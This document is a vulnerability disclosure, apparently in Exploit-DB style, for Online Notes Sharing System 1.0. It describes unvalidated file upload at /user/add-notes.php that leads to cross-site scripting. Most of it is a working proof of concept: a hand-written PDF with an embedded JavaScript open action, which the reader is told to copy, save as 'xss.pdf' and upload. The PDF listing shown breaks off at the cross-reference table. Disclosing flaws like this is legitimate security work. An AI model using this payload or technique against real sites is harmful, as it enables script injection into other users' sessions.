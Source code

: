 ## Online Notes Sharing System

**Bug Description:**

A vulnerability in the Online Notes Sharing System 1.0 allows an attacker to upload a malicious file, leading to a Cross-Site Scripting (XSS) attack. The issue arises due to insufficient validation of file uploads, enabling an attacker to upload a pdf file containing XSS payload.

Steps to Reproduce:

```
# Exploit Title: Malicious File Upload Leads to XSS in Online Notes Sharing System
# Date: 20-12-2023
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/online-notes-sharing-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE:
```
To exploit the vulnerability:

1- Log in to the application and navigate to /user/add-notes.php endpoint.

2- Add anything random in the "Notes title", "Subject" and "Description" now click on "Upload File" and upload a file called "xss.pdf". The file here is a file which I created and injected malicious content into it. Here I wrote the code for the file, make sure to copy it and then save it as "xss.pdf".

```
%PDF-1.3
%����
1 0 obj
<</Pages 2 0 R /Type /Catalog>>
endobj
2 0 obj
<</Count 1 /Kids [3 0 R] /Type /Pages>>
endobj
3 0 obj
<</AA
  <</O
  <</JS
  (
try {
  app.alert\("Hacked By DD"\)
} catch \(e\) {
  app.alert\(e.message\);
}
    ) 
  /S /JavaScript>>>>
  /Annots [] /Contents 4 0 R /MediaBox [0 0 612 792] /Parent 2 0 R
  /Resources
  <</Font <</F1 <</BaseFont /Helvetica /Subtype /Type1 /Type /Font>>>>>>
  /Type /Page>>
endobj
4 0 obj
<</Length 21>>
stream
 
BT
/F1 24 Tf
ET
    
endstream
endobj
xref
```